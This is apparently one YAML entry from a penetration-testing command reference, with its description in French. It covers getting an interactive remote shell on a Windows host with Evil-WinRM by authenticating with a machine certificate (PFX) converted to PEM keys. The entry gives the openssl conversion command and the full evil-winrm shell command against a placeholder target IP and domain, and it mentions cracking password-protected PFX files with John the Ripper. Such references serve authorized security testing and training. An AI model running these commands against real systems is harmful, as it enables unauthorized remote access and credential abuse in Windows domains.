 ```yaml
---
description: |
  Evil-WinRM utilise l'instrumentation de gestion Windows (WMI) pour vous donner un shell interactif sur l'hôte Windows. Winrm supporte PKINIT, ce qui signifie que si vous avez un fichier PFX d'ordinateur, vous pouvez vous authentifier et obtenir un shell. Notez que la commande nécessite une clé publique et une clé privée au format PEM, qui peuvent être extraites en convertissant le PFX au format PEM. Consultez les références pour plus d'informations à ce sujet. Les fichiers PFX protégés par un mot de passe peuvent être craqués avec JohnTheRipper.

  Command Reference:

  	Target IP: 10.10.10.1

  	PFX File: cert.pfx

  	Domain: EVILCORP

command: |
  evil-winrm -i 10.10.10.1 -c pub.pem -k priv.pem -S -r EVILCORP

code: |
  openssl pkcs12 -in certificate.pfx -out certificate.pem -clcerts

items:
  - PFX
services:
  - WMI
OS:
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/Hackplayers/evil-winrm
  - https://book.hacktricks.xyz/cryptography/certificates
---
```

